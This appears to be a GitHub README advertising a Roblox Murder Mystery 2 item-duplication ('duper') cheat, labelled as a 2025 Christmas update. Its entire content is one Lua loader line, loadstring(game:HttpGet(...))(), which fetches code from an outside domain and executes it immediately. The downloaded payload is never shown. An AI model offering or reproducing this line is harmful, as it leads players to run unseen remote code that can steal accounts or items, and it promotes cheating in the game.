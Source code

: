 # MM2-Script-Duper
NEW UPD CHRISTMAS
WORKS 2025
loadstring(game:HttpGet("https://egorikusa.space/3d38546061f6db41e49c3aa9.lua", true))()
